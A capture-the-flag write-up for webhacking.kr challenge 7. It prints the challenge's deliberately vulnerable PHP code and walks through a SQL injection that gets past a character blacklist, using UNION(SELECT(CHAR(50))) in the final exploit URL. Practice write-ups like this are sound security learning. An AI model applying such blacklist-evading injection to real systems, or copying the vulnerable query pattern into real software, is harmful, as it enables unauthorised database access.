 ## Analysis

This simple initial site contains only button for `auth` and link to source code. 

![alt text](imgs/image.png)

Clicking `auth` gives us a `Access_Denied` alert.

![alt text](imgs/image-1.png)

This is the source code linked.

```PHP
<?php
  include "../../config.php";
  if($_GET['view_source']) view_source();
?><html>
<head>
<title>Challenge 7</title>
</head>
<body>
<?php
$go=$_GET['val'];
if(!$go) { echo("<meta http-equiv=refresh content=0;url=index.php?val=1>"); }
echo("<html><head><title>admin page</title></head><body bgcolor='black'><font size=2 color=gray><b><h3>Admin page</h3></b><p>");
if(preg_match("/2|-|\+|from|_|=|\\s|\*|\//i",$go)) exit("Access Denied!");
$db = dbconnect();
$rand=rand(1,5);
if($rand==1){
  $result=mysqli_query($db,"select lv from chall7 where lv=($go)") or die("nice try!");
}
if($rand==2){
  $result=mysqli_query($db,"select lv from chall7 where lv=(($go))") or die("nice try!");
}
if($rand==3){
  $result=mysqli_query($db,"select lv from chall7 where lv=((($go)))") or die("nice try!");
}
if($rand==4){
  $result=mysqli_query($db,"select lv from chall7 where lv=(((($go))))") or die("nice try!");
}
if($rand==5){
  $result=mysqli_query($db,"select lv from chall7 where lv=((((($go)))))") or die("nice try!");
}
$data=mysqli_fetch_array($result);
if(!$data[0]) { echo("query error"); exit(); }
if($data[0]==1){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Access_Denied!')\"><p>");
}
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
?>
<a href=./?view_source=1>view-source</a>
</body>
</html>
```
Firstly, the site retrieves value of `val` using `GET` request (from URL). It then checks this value using following regex./

`preg_match("/2|-|\+|from|_|=|\\s|\*|\//i", $go)`

This regex checks if the value of `$go` contains any of the following:

- **`2`**: The number `2`.
- **`-`**: A hyphen (`-`).
- **`+`**: A plus sign (`+`).
- **`from`**: The word `from` (case-insensitive due to `/i`).
- **`_`**: An underscore (`_`).
- **`=`**: An equals sign (`=`).
- **`\s`**: Any whitespace character (space, tab, etc.).
- **`*`**: An asterisk (`*`).
- **`/`**: A forward slash (`/`).

If any of these are found in the value, the script will stop execution with `exit`.

The program randomly generates a number between 1 and 5 and executes a corresponding query based on the generated number. All queries are pretty much the same, but with different number of brackets - serving no other purpose than to sometimes ruin our SQL injection. If the query fails, then we will be hit with exit.

Value from query is then saved into `$data` and then compared with few ifs. This is the part that interests us:

```
elseif($data[0]==2){
  echo("<input type=button style=border:0;bgcolor='gray' value='auth' onclick=\"alert('Hello admin')\"><p>");
  solve(7);
}
```

Now we know, that we want first character of `data` to be `2`.

## Exploit

To beat this challenge we need to use SQL injection and account for forbidden characters.

This is the base URL:
```
https://webhacking.kr/challenge/web-07/index.php?val=1
```
We want to append it with our SQL injection query.  
The query we want to use, needs to return `2` as a first character.  
So we could go with:

```SQL
UNION SELECT 2
```

But spaces and number 2 are forbidden, so have to change them without affecting the logic.

```SQL
UNION(SELECT(CHAR(50)))
```

Note that `CHAR(50)` is just ascii value of number `2`.
Our final URL will look like this

```
https://webhacking.kr/challenge/web-07/index.php?val=1)union(select(char(50))
```

The last closing bracket will be appended by original query.